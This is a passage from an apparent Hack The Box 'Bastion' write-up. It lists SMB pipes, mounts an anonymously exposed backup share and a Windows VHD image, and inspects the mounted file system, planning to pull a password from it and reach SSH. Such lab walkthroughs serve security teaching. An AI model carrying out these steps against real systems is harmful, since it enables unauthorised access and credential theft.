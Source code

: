 ```bash
 fr--r--r--                3 Sun Dec 31 19:03:58 1600 W32TIME_ALT
 fr--r--r--                1 Sun Dec 31 19:03:58 1600 openssh-ssh-agent
 fr--r--r--                1 Sun Dec 31 19:03:58 1600 vgauth-service
 fr--r--r--                4 Sun Dec 31 19:03:58 1600 srvsvc
 fr--r--r--                1 Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-238-0
 fr--r--r--                1 Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-580-0
 fr--r--r--                1 Sun Dec 31 19:03:58 1600 Winsock2\CatalogChangeListener-240-0
 fr--r--r--                3 Sun Dec 31 19:03:58 1600 winreg
```

### Mounting the Backup

Judging from the 'WindowsImageBackup' folder, I am assuming this is some sort of windows backup that is exposed. Furthermore, there is a `.vhd` file in the share, which stands for "Virtual Hard Disk". This is one popular format for full disk backups, and it is definitely worth inspecting. I want to mount the `.vhd` file, but I don't want to pull it down locally through the HTB VPN, so I am going to mount the SMB share.

```bash
mount -t cifs //10.10.10.134/Backups ./mountpoint -o user=,password=,rw
```

And then mount the VHD using `guestmount`.

```bash
guestmount --add '/root/HTB/bastion/loot/mountpoint/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro /root/HTB/bastion/loot/fs -v
```

Now the windows file share should be mounted at `/root/HTB/bastion/loot/fs`, which we can verify with a quick `ls -la`.

```bash
$ ls -la
total 2096745
drwxrwxrwx 1 root root      12288 Feb 22  2019  .
drwxr-xr-x 4 root root       4096 May 20 22:32  ..
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 10  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 10  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /sysroot/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 13  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 11  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
```

## Getting Shell Access

Now that we have access to the file system, the next step is to try use this access to get a shell somehow. Our `nmap` scan showed that this host has SSH for Windows enabled, so if we can get a password for any user on the system, then we should be able to SSH in.
